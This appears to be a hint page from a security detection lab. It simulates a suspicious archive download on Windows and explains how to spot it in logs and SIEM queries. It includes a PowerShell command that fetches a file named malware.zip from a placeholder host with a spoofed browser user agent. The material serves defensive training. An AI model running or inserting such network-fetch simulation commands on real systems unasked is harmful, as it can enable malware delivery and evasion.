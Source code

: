 # Hint 1: Suspicious Archive Downloads

## Scenario Overview

Simulates the download of potentially malicious archive files (e.g., .zip, .rar) from the internet, which may be used to deliver malware.

## Simulation Steps

**On Windows VM:**
```powershell
Invoke-WebRequest -Uri "http://example.com/suspicious.zip" -OutFile "$env:USERPROFILE\Downloads\malware.zip" -UserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"
```

## Detection Guidance

- **Key Logs/Events:**
  - Winlogbeat: HTTP requests with `.zip`/`.rar`
  - Sysmon Event ID 11: FileCreate
- **SIEM Query Example:** `event.dataset:"http" AND url.path:"*.zip"`
- **What to Look For:** Unusual downloads, especially archives, from suspicious domains or with nonstandard user agents.

## Example Log Artifacts

(Paste actual log lines or reference screenshots here if available.)

## Additional Notes

Check for downloads outside of normal business processes, and correlate with threat intel on downloaded file hashes or domains.
